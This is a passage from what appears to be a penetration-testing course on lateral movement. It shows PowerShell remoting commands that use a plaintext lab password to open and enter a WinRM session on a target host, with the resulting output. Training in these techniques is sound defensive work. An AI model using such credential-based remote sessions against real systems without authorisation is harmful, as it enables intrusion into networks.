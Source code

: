 > Listing 12 - Veriyfing the origin of the WinRS reverse-shell

PowerShell also has WinRM built-in capabilities called [_PowerShell remoting_](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2), which can be invoked via the _New-PSSession_ cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

> Listing 13 - Establishing a PowerShell Remote Session via WinRM

To interact with the session ID 1 we created, we can issue the **Enter-PSSession** cmdlet followed by the session ID.

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

> Listing 14 - Inspecting the PowerShell Remoting session

Once more, we've proven that the session is originating from the target host through yet another lateral movement technique.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| 
Name

(Click to sort ascending) | 

IP Address
